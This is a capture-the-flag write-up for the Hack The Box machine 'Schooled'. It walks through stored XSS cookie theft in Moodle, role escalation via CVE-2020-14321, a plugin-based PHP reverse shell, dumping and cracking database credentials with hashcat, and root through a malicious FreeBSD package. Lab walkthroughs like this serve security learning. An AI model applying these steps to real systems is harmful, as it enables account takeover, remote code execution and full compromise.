





## Initial Foothold

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
33060/tcp open  mysqlx?
```

Nothing out of the usual regarding ports. HTTP, SSH and MySQL.

The inital foothold on this was a little bit tricky since the usual enumeration doesn't give a lot of information. Nothing to be precise. Enumeration dns using gobuster didn't give us any subdomains either so it took us quite a while to use ffuf.. You might get there faster if you knew that moodle is quite famous for educational stuff, but I've never heard of it before.

```
$ffuf -w subdomains-top1million-5000.txt -u http://schooled.htb/ -H 'Host: FUZZ.schooled.htb' -fs 20750
```
[DNS_SecList](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

This returns the subdomain moodle to us so we add moodle.schooled.htb to our /etc/hosts file.
At first glance we only see that it is possible to create a new student account as long as we use @student.schooled.htb.

After reasearching another hundred years we stumbled over this PoC https://cube01.io/blog/Moodle-DOM-Stored-XSS-to-RCE.html.
Sweet! However our MathJax version is not vulnerable aynmore.. Bummer!

But wait, didn't the prof. of the Math course we enroled into said we should add our MoodleNet information to our profile?
That might be a hint the author left us to point us into the right direction.

We also noticed that there is a session cookie to be stolen. XSS isn't really popular on HackTheBox but since we didn't find anything else we might aswell give it a shot.

So we inject our payload ``into the MoodleNet field on our moodle profile and test it by visiting our profile ourselves while listening on port 1234.

We soon noticed that it didn't took long for our teacher to check on our profile aswell, WHAT A CREEP! (If nothing happens for a while, try to chat him. That always worked fine to trigger him. And don't visit your own profile page or you'll get your own cookie 😉)
But good for us, we managed to steal his Cookie 🍪.



For the following all credits go to [HoangKien1020](https://www.youtube.com/watch?v=BkEInFI4oIU) since his instructions made it dead simple to follow from here on. 

First we change our cookie to the one we stole to become the teacher Manuel Phillips.
Afterwards we go on our Maths course -> Participants and enrole a new studen user, but make sure to catch this request with Burpsuite. At this point we didn't know this already but later we will learn that we should add Lianne Carter to the course, since she is the site manager which we learned on the main page.

To make it easier we just going to pretend that we did this right aways.

Send the captured burpsuite request to the Repeater and change the userlist id to our user id: 24 and the role id to 1 which is the manager role.



We now elevated ourself to the manager role moodle and can use this to login into Liannes Account via her profile page. (If there's no button to login as Lianne, she's not enrolled to the math course. Just add her normally on the webpage without intercepting.)

Once logged in as Lianne we have access to the Site Administration. We now navigate to Users -> Define Roles -> Manager -> Edit and turn on the interceptor to capture the following request before hiting Save and Exit. In Burpsuite we can modifiy the payload now to [this](https://github.com/HoangKien1020/CVE-2020-14321) to escalate further to full permissions. With our new permissions we can deploy and install new Plugins.

We can now simply install [this compromised zip](https://github.com/HoangKien1020/Moodle_RCE) as a new plugin. To get a nice shell you can change the content of the block_rce.php inside the zip to something like [this simple reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Make sure to fill in your LHOST and LPORT. Finally set up your listener and navigate to http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php.

Et Voilá we have RCE!

## User

This point was the first step we actually got lucky and pretty much went straight for the right file: `cat config.php` which reveals the mysql credentials: `moodle:PlaybookMaster2020`.



So let's have a look at our moodle databse shall we?

```
$ mysql -umoodle -pPlaybookMaster2020
$ use moodle;
$ SHOW TABLES;
$ SELECT * FROM mdl_user;
```



There is a nice bcrypt hash for the admin user, so let's fire up hashcat:

```
$ hashcat hash.txt rockyou.txt -m 3200
$ hashcat hash.txt rockyou.txt -m 3200 --show
```



After a couple of seconds we are presented the the password: `!QAZ2wsx` which we can use to ssh into jamie and get the user.txt.

## Root

We have spent enough time on this Box to get gifted with this easy PrivEsc.
```
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

So we can install just any pkg? Well that doesn't sound safe does it.

https://gtfobins.github.io/gtfobins/pkg/ shows us how to exploit this.

Create your mailicious package on your host mashine:

```
TF=$(mktemp -d)
echo 'cat /root/root.txt' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```
#*You might need to install fpm if you are using kali.*

Upload it to the server using scp:

```
scp x-1.0.txz jamie@schooled.htb:x-1.0.txz
```

and install it with:

```
sudo /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz
```

You are presented the root.txt

